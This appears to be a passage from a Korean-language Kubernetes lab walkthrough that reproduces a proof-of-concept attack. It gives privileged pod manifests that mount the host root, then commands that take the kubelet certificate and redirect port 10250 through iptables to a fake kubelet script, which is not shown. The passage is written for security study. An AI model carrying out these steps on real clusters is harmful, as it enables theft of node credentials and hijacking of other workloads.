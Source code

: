 ```yaml
        mountPath: /host
    volumes:
    - name: host-root-volume
      hostPath:
        path: /
    hostNetwork: true
    hostPID: true
    restartPolicy: Always
    nodeSelector:
     condition: compromised-node
```

  ```yaml
  apiVersion: v1                                                                               #node2.yaml
  kind: Pod
  metadata:
    name: very-secure-pod
    namespace: default
  spec:
    containers:
    - name: very-secure-container
      image: nginx
      imagePullPolicy: IfNotPresent
    nodeSelector:
      condition: very-secure-node
  ```

상단의 내용을 Master Node에 node1.yaml, node2.yaml로 각각 저장하여 "**kubectl apply -f [파일명]**" 명령어로 적용해줍니다.

<br />

- POC 실습 순서

```
# kubectl exec -it compromised-pod /bin/sh
```

Master Node에서 kubectl을 통해 Node1의 compromised-pod에 접근해줍니다. 실제 상황에서는 container escape 혹은 host 에서 root 권한을 얻은경우에 해당합니다.

```
# apk add python2 vim
```

접근한 compromised-pod에서 poc 코드 편집을 위해 python2와 vim을 설치해줍니다.

```
# mv /var/lib/kubelet/pki/kubelet-20* /tmp/kubelet-server.pem
# vi /tmp/fake-kubelet.py
```

kubelet의 인증서가 보관된 디렉토리에서 인증서를 /tmp 디렉토리로 옮겨주거나 복사합니다.
이후, fake-kubelet.py 파일을 생성하여 poc 코드를 붙여놓고 master_ip, target_pod, pem_path 변수를 환경에 맞게 편집합니다.
(master_ip의 경우에는 /etc/hosts 혹은 환경 변수를 참조하여 작성하며 target_pod는 Node2의 very-secure-pod에 해당됩니다)

```
# iptables -t nat -I PREROUTING -p tcp --dport 10250 -j REDIRECT --to-ports 8080
# iptables -t nat -I OUTPUT -p tcp -o lo --dport 10250 -j REDIRECT --to-ports 8080
# python2 /tmp/fake-kubelet.py&
```
